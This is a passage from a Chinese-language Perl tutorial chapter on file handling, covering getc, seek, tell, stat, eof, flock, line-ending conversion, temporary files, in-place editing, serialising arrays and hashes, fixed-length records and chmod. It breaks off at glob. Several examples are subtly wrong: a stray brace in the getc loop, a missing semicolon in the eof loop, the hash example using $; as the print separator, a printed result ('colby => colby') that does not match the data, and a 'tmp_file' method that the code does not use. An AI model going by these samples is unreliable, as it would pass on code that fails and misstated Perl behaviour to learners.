**readline**函数使用**$/**变量来确定输入行的末尾。在这个例子中，我从**STDIN**读取一行并打印该行：

```perl
$input = readline(*STDIN);
print $input;
```

*Here's a line of text.*

**IO**模块不支持**readline**方法；然而，它包含**$filehandle->getline**方法，它与使用**<$filehandle>**类似，只是如果你在数组上下文中调用它，它仍然只返回一行；以及**$filehandle->getlines**方法，该方法设计为仅在数组上下文中使用，以读取文件中的所有行。

### getc 获取字符

> “我需要逐字节读取文件，”新手程序员说。“我想我可以使用**read**每次读取一个字节。” “或者，”你说，“你可以更高效地使用**getc**。”

**getc**函数从输入文件获取单个字符：

```perl
getc FILEHANDLE
getc
```

此函数返回读取的字符，如果在文件末尾则返回未定义值。我们在前一章中见过**getc**。如果你省略文件句柄，此函数将从**STDIN**读取。

在这个例子中，我逐字节读取文件（请注意，这并不意味着文件是无缓冲的）：

```perl
open (FILEHANDLE, "<file.txt") or die ("Cannot open file.txt");
while (defined($char = getc FILEHANDLE)){
    print $char;
}
}
close FILEHANDLE;
```

> *Here's*
*a*
*file!*

**IO**模块也支持**getc**；使用该模块的同一个例子如下所示：

```perl
use IO::File;
$filehandle = new IO::File;
$filehandle->open("<file.txt") or die "Could not open file.txt";
while (defined($char = $filehandle->getc)) {
    print $char;
}
$filehandle->close;
```

> *Here's*
*a*
*file!*

事实上，**IO**模块还支持**ungetc**方法——**$filehandle->ungetc(ORD)**——它将一个具有指定序数（即Unicode）值的字符推入句柄的输入流。

| 相关解决方案： | 所在页码： |
| :--- | :--- |
| **getc** 获取单个输入字符 | 521 |

### seek 设置文件中的当前位置

> “我现在处理文件越来越熟练了，”新手程序员说。“很好，”你说。“但是我有一个问题，”新手程序员说。“我的文件现在变得如此之大，以至于必须读过前12兆字节才能找到我想要处理的部分，这很痛苦，但我想我只能忍受了。” “完全不用，新手程序员，”你说，“只需使用**seek**函数。”

你可以使用**seek**函数设置下一次输入或输出操作将在文件中发生的位置：

```perl
seek FILEHANDLE, POSITION, WHENCE
```


此函数设置 **FILEHANDLE** 的当前位置，成功返回 true，否则返回 false。**POSITION** 参数持有文件中的新位置（以字节为单位），而 *WHENCE* 参数允许你指定 *POSITION* 的解释方式。以下是 *WHENCE* 的可能设置：

- 0—将新位置设置为 **POSITION**
- 1—将新位置设置为当前位置加上 **POSITION**
- 2—将新位置设置为文件末尾加上 **POSITION**（**POSITION** 通常为负数）

让我们看一个例子。这里，我使用一个文件 file.txt，其中包含文本 "This is the text."。我将当前位置设置到单词 "text" 的开头，并像这样从该位置读取：

```
open (FILEHANDLE, "<file.txt") or die "Cannot open file.txt";
seek FILEHANDLE, 12, 0;
while (<FILEHANDLE>){
    print;
}
close (FILEHANDLE);
```

text.

**IO** 模块也支持 **seek** 方法，但要使用它，你必须包含 **IO::Seekable** 模块。以下是使用 **IO** 模块的同一个例子：

```
use IO::File;
use IO::Seekable;
$filehandle = new IO::File;
$filehandle->open("<file.txt") or die "Cannot open file.txt";
$filehandle->seek(12, 0);
while (<$filehandle>){
    print;
}
$filehandle->close;
```

text.

你经常将 **seek** 与被划分为相同大小记录的文件一起使用。使用 **seek**，你可以访问此类文件中的任何记录。（此过程称为 *随机访问*，与 *顺序访问* 相对，后者你必须读取每个间隔记录才能到达你想要的特定记录。）要支持固定大小记录，你可以使用 Perl 函数如 **pack**、**vec** 和 **unpack**。有关更多信息，请参阅本章后面的“使用固定长度记录进行随机访问”主题。请注意，如果你以追加模式打开文件，文件中的当前位置设置为文件的最末尾，你无法使用 **seek** 将其移动到该位置之前。

## tell 获取文件中的当前位置

> “好吧，”新手程序员说，“现在我可以在文件中设置当前位置以进行读取或写入，但如果我想检查那个位置呢？”“很简单，”你说，“只需使用 **tell**。”

**tell** 函数返回文件中的当前位置：

```
tell FILEHANDLE
tell
```

如果你省略 *FILEHANDLE*，**tell** 使用最后读取的文件。

在接下来的示例中，我使用 **seek** 函数设置文件中的当前位置，并使用 **tell** 打印该位置：

```
open (FILEHANDLE, "<file.txt") or die "Cannot open file.txt";
seek FILEHANDLE, 12, 0;
print tell FILEHANDLE;
close (FILEHANDLE);
```

12

如果你还包含 **IO::Seekable** 模块，你可以使用 **IO** 模块中的 **tell** 方法做同样的事情：

```
use IO::File;
use IO::Seekable;
$filehandle = new IO::File;
$filehandle->open("<file.txt") or die "Cannot open file.txt";
$filehandle->seek(12, 0);
print $filehandle->tell;
$filehandle->close;
```

12

## stat 获取文件状态

> “在 C 语言中，”编程正确性沙皇说，“我可以以各种方式获取文件信息。”“在 Perl 中也一样，”你说，“你可以使用 **stat** 函数。”“哦，”PCC 失望地说。

你可以使用 **stat** 函数来查找文件的状态：

```
stat FILEHANDLE
stat EXPR
stat
```

此函数返回一个包含 13 个元素的列表，给出你通过 *FILEHANDLE* 指定或通过其名称 *EXPR* 指定的文件的状态。如果你省略文件句柄或表达式，此函数使用 $_。

以下是 **stat** 返回的列表中的元素（请注意，时间是从纪元开始计算的，在 Unix 中是 1/1/1970，并且并非所有操作系统都支持所有元素）：

- **0 dev**—文件系统的设备号
- **1 ino**—索引节点号（Unix 文件系统存储定位器）
- **2 mode**—文件模式
- **3 nlink**—指向文件的硬链接数
- **4 uid**—文件所有者的用户 ID
- **5 gid**—文件所有者的组 ID
- **6 rdev**—特殊文件的设备标识符
- **7 size**—文件的总大小，以字节为单位
- **8 atime**—最后访问时间
- **9 mtime**—最后修改时间
- **10 ctime**—最后索引节点更改时间
- **11 blksize**—标准文件系统 I/O 的首选块大小
- **12 blocks**—为此文件分配的块数

在此示例中，我使用 **stat** 显示文件的大小：

```
$filename = 'file.txt';
($dev, $ino, $mode, $nlink, $uid, $gid, $rdev, $size, $atime,
    $mtime, $ctime, $blksize, $blocks) = stat($filename);
print "$filename is $size bytes long.";
```

file.txt is 20 bytes long.

你也可以在打开的文件句柄上使用 **stat**：

```
$filename = 'file.txt';
open FILEHANDLE, "<$filename";
($dev, $ino, $mode, $nlink, $uid, $gid, $rdev, $size, $atime,
    $mtime, $ctime, $blksize, $blocks) = stat(FILEHANDLE);
print "$filename is $size bytes long.";
```

> file.txt is 20 bytes long.

并且，你可以在 **IO** 模块中的文件句柄对象上使用 **stat**：

```
use IO::File;
$filename = 'file.txt';
$filehandle = new IO::File;
$filehandle->open("<$filename") or die "Cannot open $filename";
($dev, $ino, $mode, $nlink, $uid, $gid, $rdev, $size, $atime,
    $mtime, $ctime, $blksize, $blocks) = $filehandle->stat;
print "$filename is $size bytes long.";
```

> file.txt is 20 bytes long.

如果你向 **stat** 传递一个下划线作为文件句柄，它将返回上次执行的 **stat** 或文件测试的结果列表。

| 相关解决方案： | 所在页： |
| --- | --- |
| 使用文件测试运算符 | 157 |

## POSIX 文件函数

美国国家标准与技术研究院的计算机系统实验室（NIST/CSL）与其他组织一起，创建了可移植操作系统接口（POSIX）标准。POSIX 是一个庞大的标准化类 C 函数库，涵盖了从基本数学到高级文件处理的各种标准编程操作。

Perl 的 **POSIX** 模块使你能够访问几乎所有标准的 POSIX 1003.1 标识符——大约 250 个函数——其中许多与文件处理有关。这些函数并不像本章中其他函数那样内置于 Perl 中，但因为 **POSIX** 通常为程序员提供的功能比这些内置函数更多，所以我们在此提及它。你可以通过使用 **use** 语句将 **POSIX** 模块添加到程序中：

```
use POSIX;                 #Add the whole POSIX library
use POSIX qw(FUNCTION);    #Use a selected function.
```

例如，我使用 **POSIX fstat** 函数来获取文件 file.txt 的状态并显示其大小（请注意，**POSIX** 函数使用文件*描述符*，而不是文件句柄）：

```
use POSIX;
$filename = 'file.txt';
$descrip = POSIX::open($filename, POSIX::O_RDONLY);
($dev, $ino, $mode, $nlink, $uid, $gid, $rdev, $size, $atime,
$mtime, $ctime, $blksize, $blocks) = POSIX::fstat($descrip);
print "$filename is $size bytes long.";
```

*file.txt is 20 bytes long.*

| 相关解决方案： | 所在页： |
|---|---|
| POSIX 函数 | 483 |

## select 设置默认输出文件句柄

要使文件句柄成为*默认*文件句柄，你可以使用 **select** 函数。你可以使用此函数获取或设置当前默认输出文件句柄：

```
select FILEHANDLE  #Sets the default file handle
select             #Gets the default file handle
```

当一个文件句柄是默认时，除非你指定另一个，否则所有使用文件句柄的操作都将使用默认文件句柄。

在此示例中，我选择一个文件句柄使其成为默认输出通道，强制以下 **print** 操作打印到该文件句柄：

```
open (FILEHANDLE, ">hello.txt")
    or die ("Cannot open hello.txt");
select FILEHANDLE;
print "Hello!";
close (FILEHANDLE);
```

*Hello!*

请注意，当你使用 **IO** 模块时（像这样：**$filehandle->print**），你需要指定使用哪个文件句柄对象，因此 **select** 在 **IO** 模块中无法以相同方式工作。尽管如此，你可以使用 **IO::Select** 模块，其中包含允许你查看哪些 IO 句柄准备好进行读取或写入，以及哪些句柄有待处理错误条件的方法。


## eof 文件结束测试

> “当时我正开心地从文件里读取数据，”新手程序员说，“结果突然卡住了，因为我已经读到文件末尾了。” “这其实不是问题，”你说，“你可以使用 **eof** 函数来检测是否到达了文件末尾。”

你可以在读取文件时使用 **eof** 函数来测试是否到达文件末尾：

```
eof FILEHANDLE
eof ()
eof
```

如果已到达 *FILEHANDLE* 指定文件的末尾（或 *FILEHANDLE* 未打开），此函数将返回 true（在此情况下为 1）。如果你不带任何参数使用 **eof**，该函数将使用最后读取的文件。

在下面的示例中，我从文件中逐字节读取数据，直到到达文件末尾：

```
open (FILEHANDLE, "<file.txt") or die "Cannot open file.txt";
$text = "";
until (eof FILEHANDLE) {
    read (FILEHANDLE, $newtext, 1)
    $text .= $newtext;
}
print $text;
```

```
Here's
a
file!
```

你可以用同样的方式使用 **IO** 模块中的 **eof** 方法，不过，你无需传递要处理的文件句柄——因为与其他 **IO** 模块方法一样，**eof** 本身已经是特定文件句柄对象的方法。此示例展示了如何与 **IO** 模块一起使用 **eof**：

```
use IO::File;
$filehandle = new IO::File;
$filehandle->open("<file.txt") or die "Could not open file.txt";
$text = "";
until ($filehandle->eof) {
    $filehandle->read($newtext, 1);
    $text .= $newtext;
}
print $text;
$filehandle->close;
```

> Here's
a
file!

你也可以将 **eof** 函数与空括号一起用于 **while** (<>) 结构，从命令行读取。现在，看这个示例，我在命令行上传递文件名，打印该文件的内容（"Here is the text!"），并在打印完文件后追加文本 "And that's it!"：

```
while (<>) {
    print;
    if (eof()) {
        print "And that's it!";
    }
}
```

> Here is the text!
And that's it!

注意，你几乎不需要使用 **eof**，因为 Perl 中的文件处理函数非常适合在循环中使用（也就是说，当发生错误或没有更多数据可读时，它们会返回 **undef** 值）。

## flock 为独占访问锁定文件

“那个该死的约翰逊，”新手程序员说。“怎么了？”你问。“嗯，”NP 说，“每次我处理数据库文件时，约翰逊都会在它*我*更改它的同一时间打开并更改它。我永远不知道发生了什么。” “你应该锁定文件，”你说，“这样就只有你能使用它了。” “太好了，”NP 急切地说，“多告诉我一些。”

你使用 **flock** 函数锁定由 ***FILEHANDLE*** 指定的文件：

```
flock FILEHANDLE, OPERATION
```

锁定文件会限制其他进程对其的访问。请注意，锁在 Unix 上只是*建议性*的，但在某些操作系统（如 Windows NT）上是*强制性*的。以下是 ***OPERATION*** 的可能值（要使用这些常量的符号名称，必须通过 'use **Fcntl**' 包含 **Fcntl** 模块）：

- LOCK_SH—共享文件 (= 1)
- LOCK_EX—独占使用文件 (= 2)
- LOCK_NB—与 LOCK_SH 或 LOCK_EX 一起用于非阻塞访问（即 flock 在验证锁是否激活之前立即返回） (= 4)
- LOCK_UN—解锁文件 (= 8)

如果成功，此函数返回 true；如果失败，则返回 false。

请注意，虽然 Unix 中的文件锁仅是建议性的，但 Perl 不会让你获得已锁定文件的独占锁。因此，如果你无法获得文件的独占锁，你就可以判断该文件是否被锁定，你应该等到可以获取锁为止，以确保文件是空闲的。

锁定数据文件对于 CGI 脚本可能非常重要，因为在你处理一个用户的文件时，另一个用户可能浏览到同一脚本并希望处理同一文件。因此，在我们开始编写 CGI 脚本时，我们将更详细地了解 **flock**。

## 去除或添加回车符——从 DOS 到 Unix 再返回

> “天哪，”新手程序员说，“我在笔记本电脑上编写并上传的文件让我非常头疼。” “为什么？”你问。“都是那些回车符，”NP 说，“我的笔记本电脑是 Windows 机器，我的文本编辑器使用回车符-换行符对，而不是仅仅换行符。” “一个常见问题，”你说，“你需要一个脚本，根据你的转换方向去除或添加回车符。” “太好了，”NP 说，“你写一个需要多长时间？”

看看这个 Perl 脚本，我称之为 remover.pl；当你将文件从 MS-DOS 上传到 Unix 机器时，它将允许你从文件中去除回车符（你可以在 MS-DOS 或 Unix 机器上运行它）：

```
$infile = $ARGV[0];
$outfile = $ARGV[1];
open (INFILEHANDLE, "<$infile") or die ("Cannot open file.");
open (OUTFILEHANDLE, ">$outfile") or die ("Cannot open file.");
binmode OUTFILEHANDLE;
while (defined($line = <INFILEHANDLE>)) {
    $line =~ s/\r//g;
    print OUTFILEHANDLE $line;
}
close INFILEHANDLE;
close OUTFILEHANDLE;
```

### 立即解决方案

你这样使用 remover：

```
%perl remover from_file_name to_file_name
```

让我再给你展示一个脚本——adder.pl——它做相反的事情，当你将文件从 Unix 移动到 DOS 时，将换行符更改为回车符-换行符对：

```
$infile = $ARGV[0];
$outfile = $ARGV[1];
open (INFILEHANDLE, "<$infile") or die ("Cannot open file.");
open (OUTFILEHANDLE, ">$outfile") or die ("Cannot open file.");
binmode OUTFILEHANDLE;
while (defined($line = <INFILEHANDLE>)) {
    $line =~ s/\n/\r\n/g;
    print OUTFILEHANDLE $line;
}
close INFILEHANDLE;
close OUTFILEHANDLE;
```

你这样使用 adder.pl：

```
%perl adder from_file_name to_file_name
```

事实上，使用 Perl v5.6.0 中引入的 **binmode** 的双参数形式，你可以使这些程序更容易；以下是如何重写 remover.pl：

```
$infile = $ARGV[0];
$outfile = $ARGV[1];
open (INFILEHANDLE, "<$infile") or die ("Cannot open file.");
open (OUTFILEHANDLE, ">$outfile") or die ("Cannot open file.");
binmode INFILEHANDLE, ":crlf";
binmode OUTFILEHANDLE, ":raw";
while (defined($line = <INFILEHANDLE>)) {
    print OUTFILEHANDLE $line;
}
close INFILEHANDLE;
close OUTFILEHANDLE;
```

还有，以下是如何重写 adder.pl：

```
$infile = $ARGV[0];
$outfile = $ARGV[1];
open (INFILEHANDLE, "<$infile") or die ("Cannot open file.");
open (OUTFILEHANDLE, ">$outfile") or die ("Cannot open file.");
binmode INFILEHANDLE, ":raw";
binmode OUTFILEHANDLE, ":crlf";
while (defined($line = <INFILEHANDLE>)) {
    print OUTFILEHANDLE $line;
}
close INFILEHANDLE;
close OUTFILEHANDLE;
```

## 在程序代码中存储文件

“我喜欢处理文件，”新手程序员说，“只是我不喜欢细节。” “比如什么？”你问。“嗯，比如打开和关闭它们，还有……” “别说了，”你告诉 NP，“你可以在 Perl 程序中使用文件。” NP 说，“多告诉我一些！”

Perl 有两个特殊标记 __DATA__ 和 __END__，你可以用它们在代码文件中存储数据。当你使用这些标记时，Perl 不会读取它们之后的更多代码；它只假设之后的内容是数据。然而，如果你从隐式文件句柄 DATA 读取，你就可以将该数据作为程序的输入。

考虑这个例子；注意 DATA 在这里如何充当文件句柄，读取程序中从 __DATA__ 标记开始的数据：

```
while (<DATA>) {
    print;
}
__DATA__
Here
is
the
text!
```

> Here
is
the
text!

而且，你可以以非常类似的方式使用 __END__ 标记：

```
while (<DATA>) {
    print;
}
__END__
Here
is
the
text!
```

> Here
is
the
text!

## 计算文件中的行数

“我可以用 **stat** 来查找文件的大小，但那不是我想要的，”新手程序员说。“哦，”你问，“你想要什么？” “文件中的*行数*，”NP 说。“嗯，”你说，“你可以用一点代码来解决这个问题。” “好的，”NP 说，“你写吧，我看着。”

要计算文件中的行数，你可以逐行读取整个文件，像这样计算每一行：

```
$number_lines = 0;
open(FILEHANDLE, "file.txt") or die "Can not open file.txt";
while (<FILEHANDLE>) {
    ++$number_lines;
}
close FILEHANDLE;
print "The number of lines in file.txt = $number_lines.";
```

> The number of lines in file.txt = 11.

然而，对于除短文件以外的任何文件，仅仅为了计算行数而逐行读取整个文件是低效的。更好的方法是使用 **tr///** 来返回文件中的换行符数量，并分块读取文件。在这里，我使用千字节块，但你可以使它们更长：

```
$number_lines = 0;
open(FILEHANDLE, "file.txt") or die "Can not open file.txt";
$number_lines += tr/\n/\n/ while (read FILEHANDLE, $_, 1000);
close FILEHANDLE;
print "The number of lines in file.txt = $number_lines.";
```

> The number of lines in file.txt = 11.

请注意，此代码假定文件以换行符结尾。它也适用于 MS-DOS 文件。


## 将文件句柄传递给子程序

文件句柄在 Perl 中不是标准变量。它们没有前缀解引用符，这在大多数情况下并不影响使用。然而，当你所操作的项的*类型*确实很重要时——例如，当你将该项传递给子程序，而 Perl 需要更多地了解该项的信息（比如它是列表还是标量）——你就会遇到问题。这意味着你不能像下面这样直接将文件句柄传递给子程序：

```perl
sub printem
{
    my $file = shift;
    while (<$file>) {
        print;
    }
}
open FILEHANDLE, "<file.txt" or die "Can not open file";
printem FILEHANDLE;
```

> Can't locate object method "printem" via package "IO::Handle" at c.pl line 12.

相反，你可以将文件句柄的 typeglob 传递给子程序，Perl 会根据你使用它的上下文来判断你操作的是文件句柄（例如，当你尝试从中读取数据时）。这种方法如下例所示：

```perl
sub printem
{
    my $file = shift;
    while (<$file>) {
        print;
    }
}
open FILEHANDLE, "<file.txt" or die "Can not open file";
printem *FILEHANDLE;
```

> Here's the text!

不过，传递 typeglob 的引用通常是更好的做法，因为这样你就可以使用编译指示 **use strict 'refs'**（该编译指示会禁止符号引用）。Perl 会自动解码引用，因此你只需这样做：

```perl
sub printem
{
    my $file = shift;
    while (<$file>) {
        print;
    }
}
open FILEHANDLE, "<file.txt" or die "Can not open file";
printem \*FILEHANDLE;
```

> Here's the text!

你也可以使用新的 **\*FILEHANDLE{IO}** 语法来传递文件句柄，如下所示：

```perl
sub printem
{
    my $file = shift;
    while (<$file>) {
        print;
    }
}
open FILEHANDLE, "<file.txt" or die "Can not open file";
printem *FILEHANDLE{IO};
```

> Here's the text!

不过，我个人最喜欢的方式是使用 **IO::File** 模块，并传递文件句柄对象，因为它具有非常明确的类型：

```perl
use IO::File;
sub printem
{
    my $file = shift;
    while (<$file>) {
        print;
    }
}
$filehandle = new IO::File;
$filehandle->open("<file.txt") or die "Could not open file.txt";
printem $filehandle;
```

> Here's the text!

| 相关解决方案： | 所在页码： |
| --- | --- |
| 禁止符号引用 | 408 |

## 复制和重定向文件句柄

你可以在 Perl 中复制和重定向文件句柄。在下面的示例中，我通过复制 typeglob 来显式地复制一个文件句柄：

```perl
open FILEHANDLE, "<file.txt" or die "Can not open file";
*FILEHANDLE2 = *FILEHANDLE;
while (<FILEHANDLE2>) {
    print;
}
```

你也可以使用 **open** 函数来创建文件句柄的独立副本：

```perl
open FILEHANDLE, "<file.txt" or die "Can not open file";
open (FILEHANDLE2, "<&FILEHANDLE");
while (<FILEHANDLE2>) {
    print;
}
```

你还可以通过使用 **open** 来创建文件句柄的别名：

```perl
open FILEHANDLE, "<file.txt" or die "Can not open file";
open (FILEHANDLE2, "<&=FILEHANDLE");
while (<FILEHANDLE2>) {
    print;
}
```

最后，在这个示例中，我通过使用 **open** 函数将一个文件句柄重定向到另一个；当你使用 **FILEHANDLE** 时，它将读取 otherfile.txt，而不是 file.txt：

```perl
open FILEHANDLE, "<file.txt" or die "Can not open file";
open FILEHANDLE2, "<otherfile.txt" or die "Can not open file";
open (FILEHANDLE, "<&FILEHANDLE2");
while (<FILEHANDLE>) {
    print;
}
```

## 创建临时文件名

"我只想，"新手程序员说，"找一个临时的地方来存储一些数据，因为我有很多数据要存储。""真的吗？"你问，"我以为你想要加薪呢。""那当然也要，"新手说。"好吧，"你说，"就临时存储空间而言，你可以使用 **IO** 模块的 **tmp_file** 方法来创建一个临时文件。"新手问道："那加薪呢？"你说："**tmp_file** 方法非常好，因为你不必担心选择的文件名可能与现有文件名冲突；所有这些都由它来处理。"

如果你在程序运行时有大量数据需要处理，而且不想占用大量 RAM，你可以创建一个临时文件来存储数据。这类文件在你关闭它们或程序结束时会自动删除。

在这个示例中，我首先创建一个临时文件：

```perl
use IO::File;
use IO::Seekable;
$filehandle = IO::File->new_tmpfile()
  or die "Can not make temporary file";
```

现在，我可以向该文件写入数据：

```perl
$filehandle->print("Hello!");
```

要读取你发送到临时文件的数据，你必须重置文件中的当前位置；这里，我将位置移回文件的开头：

```perl
$filehandle->seek(0, 0);
```

现在，我只需打印数据并关闭文件（这会删除它）：

```perl
print <$filehandle>;
$filehandle->close;
```

*Hello!*

如你所见，使用临时文件可以轻松地提供大量的数据存储空间。

## 就地编辑文件

> "天哪，"新手程序员说，"我想把文件的文本全部转换成大写字母，但那意味着要读入文件、进行转换、重新打开文件、再把它写出来，而且……""完全不需要，"你说，"你可以*就地*编辑文件。"

Perl 允许你就地修改文件——也就是说，直接对文件进行更改，而无需显式地读入和写出。要就地编辑文件，你需要在 Perl 中使用 **-i** 开关；该开关指定使用 **<>** 构造处理的文件将被就地编辑。

例如，假设你在文件 file.txt 中有以下多行文本：

```
Here
is
some
text.
```

在这个例子中，我会将这些文本转换为大写。我可以像这样使用 **s///** 对每一行文本进行处理来实现：

```perl
s/(.*)/uc($1)/ge;
```

要了解如何使用上述代码就地编辑 file.txt，请将该代码放在一个名为 capper 的脚本文件中。然后，你只需在命令提示符下执行这一行：

```
%perl -i.old -p capper file.txt
```

上述命令会就地编辑 file.txt 并将其全部转换为大写字母：

```
HERE
IS
SOME
TEXT.
```

我在这里使用了 **-i.old** 作为 **-i** 开关，这会让 Perl 在就地编辑 file.txt 之前将其复制到一个备份文件 file.txt.old 中。还要注意 **-p** 开关；该开关让 Perl 在你的脚本外面包裹一个 **while** （**<>**）和 **print** 循环，以便将更改后的文本打印回文件中。

| 相关解决方案： | 所在页码： |
| --- | --- |
| 运行代码：使用命令行开关 | 21 |

## 将数组写入和读取自文本文件

新手程序员又来了。"我必须把一个数组写入文件，"新手说，"你能想到什么简单的方法吗？""其实没有，"你说，"如何写入数组取决于你的数组。数组中的值越简单，将其发送到文件并读回就越容易。"

在这个示例中，我将把一个简单的数组写入文本文件，然后再读取回来。该数组如下：

```perl
@a1 = (1, 2, 3);
```

要将此数组写入文件，你可以这样做：

```perl
open FILEHANDLE, ">array.dat" or die "Can not open array.dat";
print FILEHANDLE "@a1";
close FILEHANDLE;
```

这段代码将数组作为单个字符串写入文件 array.dat，并以空格分隔数组的元素：**1 2 3**。（请注意，如果你的数组存储的是包含空格的字符串，你将需要选择其他字段分隔符。）

你可以像这样读取数组，我按空格分割从文件中读取的字符串：

```perl
open FILEHANDLE2, "<array.dat" or die "Can not open array.dat";
@a2 = split(" ", <FILEHANDLE2>);
print "@a2";
close FILEHANDLE2;
```

```
1 2 3
```

这就是简单数组的全部操作。在这个例子中，整个过程几乎和直接将数组写入文件然后再读回来一样简单。唯一的区别是我必须将从文件读取的输入按空格分割回数组。

请注意，你也可以使用 CPAN 上的 **Storable** 模块，利用该模块的 **store** 和 **retrieve** 函数来写入和读取哈希与数组：

```perl
use Storable;
@a = (1, 2, 3);
store(\@a, "array.dat");
@a2 = @{retrieve("array.dat")};
print $a2[1];
```

```
2
```

然而请注意，随着你的数据结构需求变得更为复杂——例如多维数组、混合数字与字符串的数组——你就必须自定义文件处理方式，逐个元素或逐行地拆解数组。

## 将哈希写入和读取到文本文件

"好吧，"新手程序员说，"我已经看到你可以简单地将数组写入文件，然后将文件内容按分割后读回列表。但是，哈希呢？"你说："几乎同样简单，取决于哈希的情况。"

假设你有这样一个哈希，想要将其写入文本文件：

```
%hash = (
    meat => turkey,
    drink => tea,
    cheese => colby,
);
```

你可以使用 **print** 函数将此数组发送到文本文件。然而，Perl 不会在双引号字符串中对哈希名进行插值，不像对数组那样（也就是说，**print "@array"** 会打印 **@array** 中用空格分隔的元素，但 **print "%hash"** 只会把 **%hash** 当作一个单词打印出来），如果你直接使用 **print %hash**，哈希中的键/值对将作为一个没有空格的长字符串被打印出来：**drinkteacheesecolbymeatturkey**。为了避免这种情况，我将 **print** 函数的字段分隔符——存储在预定义变量 **$;** 中——设置为空格，然后将哈希打印到文件中：

```
open FILEHANDLE, ">hash.dat" or die "Can not open hash.dat";
$; = " ";
print FILEHANDLE %hash;
close FILEHANDLE;
```

此代码将哈希的键/值对作为一个字符串写入文件，如下所示：

*drink tea cheese colby meat turkey*

要将此字符串读回新的哈希 **%hash2**，你可以按空格进行分割，然后将列表赋值给新哈希（注意，如果你的哈希中的键或值包含空格，你就必须选择另一个字段分隔符）：

```
open FILEHANDLE2, "<hash.dat" or die "Can not open hash.dat";
%hash2 = split(" ", <FILEHANDLE2>);
close FILEHANDLE2;
```

然后，我可以打印新哈希来验证哈希中的数据确实已成功恢复：

```
foreach $key (keys %hash2) {
    print "$key => $hash2{$key}\n";
}
```

```
drink => tea
colby => colby
meat => turkey
```

如你所见，你几乎可以直接将哈希写入文本文件并读取回来。

你还可以使用 CPAN 的 **Storable** 模块将哈希和数组存储到磁盘上，使用该模块中的 **store** 和 **retrieve** 函数，如下所示：

```
use Storable;
%hash = (
    meat => turkey,
    drink => tea,
    cheese => colby,
);
store(\%hash, "hash.dat");
%hash2 = %{retrieve("hash.dat")};
print $hash2{drink};
```

```
tea
```

然而，随着你的数据结构需求变得更为复杂——例如哈希的哈希或哈希的数组——你就必须自定义文件处理方式，根据需要拆解哈希并进行适当存储。

## 使用定长记录进行随机存取

大老板说："是时候对员工数据库程序进行大改了。我希望能够存储每位员工的记录，包括姓名、入职日期、离职日期等等。"你问："你想存储每位员工的离职日期？"大老板说："没有谁是永久的。"

# 第 13 章 内置函数：文件处理

在创建记录数据库时，最好使用相同长度的记录，以便于轻松访问这些记录。例如，如果你想要第 334 条记录，你只需将每条记录的长度 $n$（可以通过 **length** 函数获得）乘以 333（即 $334-1$），然后使用 **seek** 函数将当前位置定位到该位置。接着，你只需使用 **read** 函数读入 $n$ 个字节即可读取该记录。

能够以这种方式访问文件中的任何记录——无需读取所有中间记录——称为*随机*存取。（必须读取所有记录直到找到你想要的那一条，称为*顺序*存取。）

随机存取的关键在于每条记录的长度应该相同，这样你才能轻松找到任何记录（尽管有些随机存取技术将记录的地址存储在查找表中）。在 Perl 中使记录具有相同长度的一个简单方法是使用 **pack** 函数将它们打包成字符串。

> **提示：** 请记住，Perl 中标量存储的字符串是可变长度的，而非固定长度的，因此当你从标量写出字符串数据时，不要指望每个字符串的长度相同。

接下来的示例展示了如何将数据打包成定长记录、写入文件、读取回来，然后解包。在这个例子中，我将打包一个人的姓名和一个时间（以 Unix 纪元秒为单位，由 **time** 函数返回）。我可以通过使用 **pack** 将数据打包成字符串 **$s**：

```
$time = time;
$s = pack ("a8a8L", Mike, Flash, $time);
```

现在，我将该字符串 **$s** 写入文件，关闭文件，重新打开文件，然后将该字符串读回 **$s2**：

```
open FILEHANDLE, ">file.dat" or die "Can not open file.dat";
print FILEHANDLE $s;
close FILEHANDLE;

open FILEHANDLE2, "<file.dat" or die "Can not open file.dat";
$s2 = <FILEHANDLE2>;
close FILEHANDLE2;
```

剩下的就是使用 **unpack** 解包字符串并显示恢复的值：

```
($first, $last, $time) = unpack ("a8a8L", $s2);
print "First name: $first\n";
print "Last name: $last\n";
print "Time: ", scalar localtime($time);
```

First name: Mike
Last name: Flash
Time: Sun Apr 11 22:28:09 2000

就是这样。使用 **pack** 和 **unpack** 是在 Perl 中支持定长字符串的一种简单方式，非常适合随机存取文件。

| 相关解决方案 | 所在页码 |
| --- | --- |
| **pack** 将值打包成字符串 | 481 |
| **time** 获取自 1970 年 1 月 1 日以来的秒数 | 497 |
| **unpack** 从打包的字符串中解包值 | 502 |

## chmod 更改文件权限

新手程序员气冲冲地走进来。"又是那个讨厌的约翰逊，"新手程序员说，"每次我写数据文件，那个讨厌的约翰逊的程序就开始编辑里面的数据。"你说："那么，把你的文件设为只读怎么样？"新手程序员瞪大了眼："我能做到？"

你可以使用 Perl 的 **chmod** 函数（功能与同名的 Unix 命令相同）来更改一组文件的保护模式或权限模式：

```
chmod LIST
```

**LIST** 中的第一个元素必须是数值模式（非字符串），对应于 Unix 保护值——即像 0644 这样的八进制数（*不是*像 '0644' 这样的字符串）；请记住，在 Perl 中八进制数以 0 开头。此函数返回成功更改权限模式的文件数量。

> **提示：** Unix 文件权限由三个八进制数字组成，分别对应于文件所有者的权限、同一用户组中其他成员的权限以及所有其他用户的权限。在每个八进制数字中，值 4 表示读权限，值 2 表示写权限，值 1 表示执行权限。你将这些值相加来设置权限设置中的各个数字；例如，权限 0600 意味着文件的所有者，且仅文件所有者，可以同时读写该文件。

来看一个 Unix 中的示例。在这个例子中，我将使用一个名为 file.txt 的文件，其权限为 0600，你可以通过 Unix 的 **ls** 命令查看：

```
%ls -l
```

-rw------ 1 user 1 Apr 28 11:51 file.txt

**ls** 输出的最后九个位置被分为三个字符一组的字段，对应于文件权限中的三个八进制数字，你会看到 **r** 表示读权限，**w** 表示写权限，**x** 表示执行权限。

使用 Perl 的 **chmod** 函数，我可以在代码中将此文件的权限更改为 0644，如下所示：

```
chmod 0644, 'file.txt';
```

现在，当你检查此文件时，你会看到新的权限：

```
%ls -l
```

-rw-r--r-- 1 user 1 Apr 28 11:51 file.txt

你的操作系统可能不支持八进制权限模式。例如，Windows 仅支持四种权限：**A**（归档）、**R**（只读）、**H**（隐藏文件）和 **S**（系统文件）。你可以通过执行 DOS 的 **attrib** 命令或 Win32 Perl 移植版的 **Win32::File::GetAttributes** 和 **Win32::File::SetAttributes** 函数来设置这些权限。

## glob 获取匹配的文件

"我想删除目录中的所有文件，"新手程序员说。"你确定？"你惊讶地问道。"好吧，"新手程序员说，"我想我最好先看看里面有什么。怎样才能查看目录中有哪些文件？"你可以使用 **glob** 函数，"你说。"什么，***glob***？"新手程序员问道，"你在编吧。"

